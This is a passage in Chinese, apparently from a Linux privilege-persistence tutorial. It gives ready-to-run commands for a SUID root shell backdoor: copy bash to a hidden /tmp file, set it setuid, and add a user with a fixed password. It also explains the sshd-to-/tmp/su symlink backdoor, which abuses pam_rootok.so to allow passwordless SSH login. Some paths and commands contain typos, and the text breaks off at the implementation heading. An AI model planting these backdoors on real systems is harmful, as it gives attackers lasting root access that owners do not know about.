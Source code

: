 1. 找到 `bash` 文件

   `whereis bash`

2. 复制到普通用户环境能接触到的目录下

   `cp /bin/bash /tmp/.bash`

3. 赋权

   `chmod 4755 /tmp/.bash` 或 `chmod +s /tmp/.bash`

4. 创建普通用户

   ```useradd -p `openssl passwd -1 -salt 'salt' 123456` jack ```

5.  使用普通用户登录，运行 `/tmp/.bash`，这个 `bash` 就是 `root` 权限的



#### PAM 软连接维持

##### PAM 介绍

`PAM` 认证一般遵循这样的顺序： `Service(服务)` --> `PAM(配置文件)` --> `pam_*.so`。

`PAM` 认证首先要确定哪一项服务，然后加载相应的 `PAM` 的配置文件（位于 `/etc/pam.d` 下），最后调用认证文件（位于`/lib/security`下）进行安全认证，用户访问服务器的时候，服务器的某一个服务程序把用户的请求发送到 `PAM` 模块进行认证。 对于不同的服务器应用程序所对应的 `PAM` 模块也是不同的。

如果想查看某个程序是否支持 `PAM` 使用 `ls /etc/pam.d`。



##### 软连接介绍

软连接称之为符号链接（Symbolic Link），也叫软连接。类似于 Windows 的快捷方式。

软连接实际上是一个特殊的文本文件，其中包含有另一个文件的位置信息。

> 创建一个 `test.txt` 文件用来演示
>
> `touch test.txt`
>
> 
>
> 创建软连接
>
> `ln -fs /var/www/html/1.txt test.txt`  
>
> 
>
> 查看软连接（`text.txt` 指向了 `/var/www/html/1.txt`）
>
> `cat test.txt`

##### SSD  软连接后门原理

`SSD` 软连接是 `Linux` 下经典的权限维持方法之一。

其中涉及到一个比较重要的模块 `pam_rootok.so`。 这个模块的功能是**如果用户`UID`时`0`，则返回成功**，当`/etx/pam.d/ssh` 文件配置了 `auth sufficient pam_rootok.so` 时，**可以不需要密码登录**。

当在被控端执行命令 `ln -sf /usr/sbin/sshd /tmp/su; /tmp/su- oPort=1234` 建立 `shd` 的软连接后门， `PAM` 认证时就会根据软连接名字到 `/etc/pam.d` 目录下寻找对应的 `PAM` 认证文件，由于软连接的文件名为 `su`， 所以 `SSH` 的认证文件就被替换成了 `/etc/pam.d/su`， 而 `su` 中默认配置了 `auth sufficient pam_rootok.so`， 从而导致 `SSH` 可以免密登录。

##### 软连接维持权限实现
   ```
